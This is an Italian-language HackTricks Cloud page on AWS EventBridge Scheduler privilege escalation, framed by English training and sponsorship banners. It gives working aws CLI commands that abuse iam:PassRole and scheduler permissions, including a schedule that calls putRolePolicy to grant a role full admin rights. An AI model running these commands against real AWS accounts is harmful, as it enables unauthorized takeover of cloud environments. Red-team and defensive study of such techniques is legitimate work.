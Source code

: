# AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

Maggiori informazioni su EventBridge Scheduler in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Un attaccante con questi permessi sarà in grado di **`creare`|`aggiornare` un scheduler e abusare dei permessi del ruolo dello scheduler** ad esso associato per eseguire qualsiasi azione.

Ad esempio, potrebbero configurare il programma per **invocare una funzione Lambda** che è un'azione templata:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
In aggiunta alle azioni di servizio templated, puoi utilizzare **obiettivi universali** in EventBridge Scheduler per invocare un'ampia gamma di operazioni API per molti servizi AWS. Gli obiettivi universali offrono flessibilità per invocare quasi qualsiasi API. Un esempio può essere l'uso di obiettivi universali aggiungendo "**AdminAccessPolicy**", utilizzando un ruolo che ha la policy "**putRolePolicy**":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Riferimenti

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
